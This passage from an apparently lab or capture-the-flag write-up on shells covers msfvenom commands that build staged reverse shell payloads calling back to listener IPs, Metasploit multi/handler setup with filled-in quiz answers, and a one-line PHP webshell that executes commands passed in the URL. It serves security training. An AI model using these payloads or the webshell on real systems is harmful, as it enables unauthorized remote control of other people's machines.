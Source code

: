 `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o MALWARE_DO_NOT_RUN.exe LHOST=10.9.5.6 LPORT=4444`

    2. Which symbol is used to show that a shell is stageless?

\_

    3. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

## Metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells.

* Open Metasploit with `msfconsole`
* Type `use multi/handler`, and press enter

By using the `options` command we need to set three arguments:
* payload - `set PAYLOAD <payload>`
* LHOST - `set LHOST <listen-address>`
* LPORT - `set LPORT <listen-port>`

The listener can now be started with `exploit -j` to launch the module, running as a job in the background.

When a staged payload, like the one generated in the previous task is run, Metasploit receives the connection, sends the remainder of the payload and gives us a reverse shell. Because multi/handler was backgrounded the `sessions` command may need to be used to foreground it again.

**Questions**

    1. What command can be used to start a listener in the background?

`exploit -j`

    2. If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

`sessions 10`

## Webshells

There are times when websites allow us an opportunity to upload an executable file. Ideally we would use the opportunity to upload code that would activate a reverse or bind shell, but this is sometimes not possible. In these cases we can try uploading a webshell.

A webshell is a script that runs inside a webserver, which executes code on the server. Commands are entered into a webpage, either through a HTML form, or directly as arguments in the URL, which are then executed by the script with the results returned and written to the page. The can be used to get around firewalls or as an intermediary step to getting a reverse/bind shell.

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.
